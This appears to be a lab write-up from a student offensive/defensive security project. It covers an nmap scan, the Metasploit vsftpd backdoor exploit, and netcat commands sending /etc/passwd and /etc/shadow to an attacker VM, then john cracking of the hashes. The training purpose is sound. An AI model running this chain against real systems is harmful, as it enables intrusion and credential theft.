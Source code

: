 
# Simulated Attack – Red Team

## **Step 1 – VM Startup & Reconnaissance**
Power on the attacker and victim VMs, then verify network configuration.


![Spinup](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/Spinupvm.png)


--ip a (check IP)

![verifyIP](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/verify%20ips.png)

Perform a TCP SYN scan with service detection and OS fingerprinting:
--nmap -sS -sV -0 192.168.27.4

![nmap](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/nmapscan.png)

Step 2 – Exploitation

Open Metasploit and load the vulnerable FTP backdoor exploit:

--msfconsole 

![msfconsole](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/msfconsole.png)


--use exploit/unix/ftp/vsftpd_234_backdoor

--set RHOSTS 192.168.27.4

--run

![runPayload](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/runpayload.png)


Step 3 – File Extraction

Transfer /etc/passwd and /etc/shadow from the victim to the attacker using netcat:




--nc -lvnp 9001 > passwd

--nc -lvnp 9002 > shadow

--cat /etc/passwd | nc 192.168.27.5 9001

--cat /etc/shadow | nc 192.168.27.5 9002

![extract](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/extractfiles.png)



Step 4 – Password Cracking

Use john with the RockYou wordlist to crack hashes:

--john --format=md5crypt-long --wordlist=/usr/share/wordlists/rockyou.txt shadow
![John](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/johnrun.png)

--john -show shadow

![johnshow](https://github.com/mfaustino4786/Offensive-and-Defensive-Cybersecurity-Project/blob/main/screenshots/johnshow.png)



1. [Simulated Attack](01-SimulatedAttack.md)
2. [Defender Baseline](02-DefenderBaseline.md)
3. [Hardening](03-Hardening.md)
